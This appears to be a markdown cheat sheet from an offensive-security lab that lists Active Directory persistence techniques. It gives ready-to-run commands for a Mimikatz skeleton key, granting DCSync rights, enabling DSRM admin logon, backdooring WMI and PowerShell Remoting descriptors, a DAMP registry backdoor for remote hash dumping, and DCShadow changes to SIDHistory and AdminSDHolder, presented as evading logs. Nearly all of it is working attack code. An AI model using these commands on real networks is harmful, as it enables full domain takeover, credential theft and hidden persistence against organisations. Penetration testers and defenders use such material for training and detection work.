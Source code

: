 ## DSRM Backdoor
- [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM) – Active Directory Security (adsecurity.org)](https://adsecurity.org/?p=1714)
- [Sneaky Active Directory Persistence #13: DSRM Persistence v2 – Active Directory Security (adsecurity.org)](https://adsecurity.org/?p=1785)
 *** 
 
 ## Forging Tickets
- Golden Ticket
- Silver Ticket

***

## Misc
- [Abusing RCBD](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

Must be run with DA privileges.

### Mimikatz skeleton key attack

Run from DC. Enables password “mimikatz” for all users 🚩.

```plaintext
privilege::debug
misc::skeleton
```

### Grant specific user DCSync rights with PowerView

Gives a user of your choosing the rights to DCSync at any time. May evade detection in some setups.

```powershell
Add-ObjectACL -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student355 -Rights DCSync
```

### Domain Controller DSRM admin

The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first.

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now we can login remotely using the local admin hash dumped on the DC before (with `lsadump::sam`, see ‘Dumping secrets with Mimikatz’ below). Use e.g. ‘overpass the hash’ to get a session (see ‘Mimikatz’ above).

### Modifying security descriptors for remote WMI access

Give user WMI access to a machine, using `Set-RemoteWMI.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2'
```

For execution, see ‘Command execution with WMI’ above.

### Modifying security descriptors for PowerShell Remoting access

Give user PowerShell Remoting access to a machine, using `Set-RemotePSRemoting.ps1` cmdlet. Can be run to persist access to e.g. DCs.

```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

For execution, see ‘Command execution with PowerShell Remoting’ above.

### Modifying DC registry security descriptors for remote hash retrieval using DAMP

Using [DAMP toolkit](https://github.com/HarmJ0y/DAMP), we can backdoor the DC registry to give us access on the `SAM`, `SYSTEM`, and `SECURITY` registry hives. This allows us to remotely dump DC secrets (hashes).

We add the backdoor using the `Add-RemoteRegBackdoor.ps1` cmdlet from DAMP.

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee Student355
```

Dump secrets remotely using the `RemoteHashRetrieval.ps1` cmdlet from DAMP (run as ‘Trustee’ user).

```powershell
# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName dcorp-dc

# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName dcorp-dc

# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName dcorp-dc
```

### DCShadow

DCShadow is an attack that masks certain actions by temporarily imitating a Domain Controller. If you have Domain Admin or Enterprise Admin privileges in a root domain, it can be used for forest-level persistence.

Optionally, as Domain Admin, give a chosen user the privileges required for the DCShadow attack (uses `Set-DCShadowPermissions.ps1` cmdlet).

```powershell
Set-DCShadowPermissions -FakeDC mcorp-student35 -SamAccountName root355user -Username student355 -Verbose
```

Then, from any machine, use Mimikatz to stage the DCShadow attack.

```powershell
# Set SPN for user
lsadump::dcshadow /object:root355user /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:root355user /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName student355 | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-45109)
```

Finally, from either a DA session OR a session as the user provided with the DCShadowPermissions before, run the DCShadow attack. Actions staged previously will be performed without leaving logs 😈

```plaintext
lsadump::dcshadow /push
```
